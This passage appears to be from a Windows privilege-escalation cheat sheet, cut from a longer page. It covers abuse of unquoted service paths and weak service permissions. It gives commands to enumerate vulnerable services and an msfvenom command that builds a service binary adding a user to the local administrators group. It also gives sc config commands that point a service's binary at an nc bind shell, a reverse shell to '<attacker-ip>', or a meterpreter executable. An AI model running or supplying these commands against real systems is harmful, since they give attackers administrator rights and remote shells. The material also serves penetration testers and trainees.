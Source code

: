      for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
     	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
     		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
     	)
     )
     
     gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '*'} | select PathName,DisplayName,Name
     
     # find them using msf 
     exploit/windows/local/trusted_service_path
     
     # generate service binary with msfvenom
     msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
    ```

    * [ ] Change service binary path



    ```
     # if the group "Authenticated users" has SERVICE_ALL_ACCESS
     # it can modify the binary path
     
     # bind shell
     sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
     
     # reverse shell
     sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe <attacker-ip> 4444 -e cmd.exe"
     
     # add user to local admin group
     sc config <Service_Name> binpath= "net localgroup administrators username /add"
     
     # example using SSDPRV
     sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
     
     # then restart the service
     wmic service NAMEOFSERVICE call startservice
     net stop [service name] && net start [service name]
    ```
